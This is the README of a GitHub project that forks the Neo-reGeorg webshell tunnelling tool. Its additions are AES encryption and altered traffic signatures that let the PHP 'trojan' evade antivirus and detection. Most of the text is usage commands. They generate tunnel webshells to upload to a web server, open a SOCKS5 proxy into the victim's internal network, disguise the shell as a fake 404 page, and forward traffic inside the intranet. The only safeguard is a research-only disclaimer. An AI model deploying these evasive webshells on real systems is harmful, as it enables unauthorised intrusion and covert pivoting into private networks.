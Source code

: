 # PHP-Bypass_Neo-reGeorg

[简体中文](README.md)　｜　[English](README-en.md)

**本项目是基于Neo-reGeorg进行二次开发，对PHP木马添加了AES加密，修改了请求体和响应体特征,暂时只支持PHP的代理，其他语言的代理正在实现ing**

****
*****修改后请求体和响应体特征*****：
    ![img/img.png](img/img.png)
*****免杀效果：*****
    ![img/img_1.png](img/img_1.png)
    ![img/img_2.png](img/img_2.png)
****

**以下为原项目介绍：**

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高可用性，避免特征检测
* 提高 tunnel 连接安全性
* 提高传输内容保密性
* 应对更多的网络环境场景下使用

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！


## Version

5.2.0 - [版本修改日志](CHANGELOG.md)


## Features

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 采用 BLV (Byte-LengthOffset-Value) 数据格式传输数据
* 直接请求响应可定制化 (如伪装的404页面)
* 支持 Request 模板
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性，如服务器不稳定、负载均衡下只在部分机器上部署了服务端等特殊情况
* (仅 php) 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
* aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行
* (非 php) 支持内网转发，应对负载均衡环境
* 支持进程形式启动服务端，应对更多场景


## Basic Usage

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.go
```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```


## Advanced Usage

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. 开启内网转发，应对负载均衡
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. 使用端口转发功能，非启动 socks5 服务 ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

7. 设置请求内容模板 ( generate 的时候需要指定上)
```ruby
# 请求内容会替换到 NEOREGBODY 中
$ python3 neoreg.py -k password -T 'img=data:image/png;base64,NEOREGBODY&save=ok'
$ python3 neoreg.py -k password -T 'img=data:image/png;base64,NEOREGBODY&save=ok' -u http://127.0.0.1:8000/anysting

# NOTE 允许将模板内容写入文件中 -T file 即可
```

8. 支持创建进程另起 Neoreg 服务端，可应对恶劣的特殊环境 (自行脑补) :)
```ruby
$ go run neoreg_servers/tunnel.go 8000
$ python3 neoreg.py -k password -u http://127.0.0.1:8000/anysting
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]
                     [--max-read-size KB]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400 (default: 200)
      -T STR/FILE, --request-template STR/FILE
                            HTTP request template (eg:
                            'img=data:image/png;base64,NEOREGBODY&save=ok')
      --read-buff Bytes     Remote read buffer (default: 513)
      --max-read-size KB    Remote max read size (default: 512)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-R] [-t IP:PORT] -k KEY [-l IP]
                     [-p PORT] [-s] [-H LINE] [-c LINE] [-x LINE]
                     [--php] [--php-connect-timeout S] [--local-dns] [--read-buff KB]
                     [--read-interval MS] [--write-interval MS] [--max-threads N]
                     [--max-retry N] [--cut-left N] [--cut-right N]
                     [--extract EXPR] [-v]

    Socks server for Neoreg HTTP(s) tunneller (DEBUG MODE: -k debug)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            java/.net)
      -R, --force-redirect  Forced forwarding (only -r)
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address (default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port (default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      -T STR/FILE, --request-template STR/FILE
                            HTTP request template (eg:
                            'img=data:image/png;base64,NEOREGBODY&save=ok')
      --php                 Use php connection method
      --php-connect-timeout S
                            PHP connect timeout (default: 0.5)
      --local-dns           Use local resolution DNS
      --read-buff KB        Local read buffer, max data to be sent per POST
                            (default: 7, max: 50)
      --read-interval MS    Read data interval in milliseconds (default: 300)
      --write-interval MS   Write data interval in milliseconds (default: 200)
      --max-threads N       Proxy max threads (default: 400)
      --max-retry N         Proxy max threads (default: 10)
      --cut-left N          Truncate the left side of the response body
      --cut-right N         Truncate the right side of the response body
      --extract EXPR        Manually extract BODY content (eg:
                            <html><p>NEOREGBODY</p></html> )
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


## Remind

* Mac OSX 上运行 `neoreg.py` 时，高并发请求会出现网络丢包情况，可通过 `ulimit -n 2560` 修改当前 shell 的 "最大文件打开数"



## License

GPL 3.0


## Star History Chart

[![Star History Chart](https://api.star-history.com/svg?repos=Re1axCyber/PHP-Bypass_Neo-reGeorg&type=Date)](https://star-history.com/#Re1axCyber/PHP-Bypass_Neo-reGeorg&Date)

